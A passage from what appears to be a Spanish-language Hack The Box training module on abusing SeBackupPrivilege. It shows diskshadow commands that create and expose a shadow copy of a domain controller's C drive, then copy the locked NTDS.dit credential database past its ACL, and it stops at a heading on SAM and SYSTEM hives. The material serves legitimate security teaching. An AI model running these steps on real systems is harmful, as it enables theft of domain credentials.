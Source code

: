 Como el archivo `NTDS.dit` está bloqueado por defecto, podemos usar la utilidad [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) de Windows para crear una copia sombra del disco `C` y exponerla como disco `E`. El NTDS.dit en esta copia sombra no estará en uso por el sistema.

```r
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

### Copying NTDS.dit Locally

A continuación, podemos usar el cmdlet `Copy-FileSeBackupPrivilege` para evitar el ACL y copiar el NTDS.dit localmente.

```r
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```

### Backing up SAM and SYSTEM Registry Hives
